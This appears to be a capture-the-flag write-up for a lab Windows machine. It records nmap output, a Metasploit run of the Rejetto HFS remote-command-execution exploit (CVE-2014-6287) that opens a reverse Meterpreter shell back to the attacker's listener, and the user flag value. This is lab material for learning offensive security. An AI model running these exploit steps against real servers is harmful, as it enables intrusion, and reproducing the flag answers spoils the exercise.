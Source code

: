 ### steel_mountain

In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

If you don't have the right security tools and environment, deploy your own Kali Linux machine and control it in your browser, with our Kali Room.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.


Deploy the machine.

Who is the employee of the month?
- bill harper

![[Pasted image 20220816075400.png]]
![[Pasted image 20220816075342.png]]

Take a look at the other web server. What file server is running?
- rejetto http file server

- upon checking, port 8080 has httpfile server that can be used to exploit via metasploit

```
8080/tcp  open  http               syn-ack HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3

```

- upon searching, we can use exploit/windows/http/rejetto_hfs_exec as entry for exploit

```
msf6 > search exploit/windows/http/rejetto_hfs_exec

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki
                                         /Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address o
                                         n the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.77.171      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.240.86
RHOSTS => 10.10.240.86
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > run

msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.2.77.171:4444 
[*] Using URL: http://10.2.77.171:8080/0Q1oDx
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /0Q1oDx
[*] Sending stage (175686 bytes) to 10.10.240.86
[*] Meterpreter session 1 opened (10.2.77.171:4444 -> 10.10.240.86:49220) at 2022-08-16 20:29:50 -0400
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\VSvqaMN.vbs' on the target

meterpreter >


```


What is the CVE number to exploit this file server?
- 2014-6287

Use Metasploit to get an initial shell. What is the user flag?
- located in user/bill/desktop

```
C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

09/27/2019  09:08 AM    <DIR>          .
09/27/2019  09:08 AM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)  44,155,801,600 bytes free

C:\Users\bill\Desktop>type user.txt
type user.txt
b04763b6fcf51fcd7c13abc7db4fd365

C:\Users\bill\Desktop>

```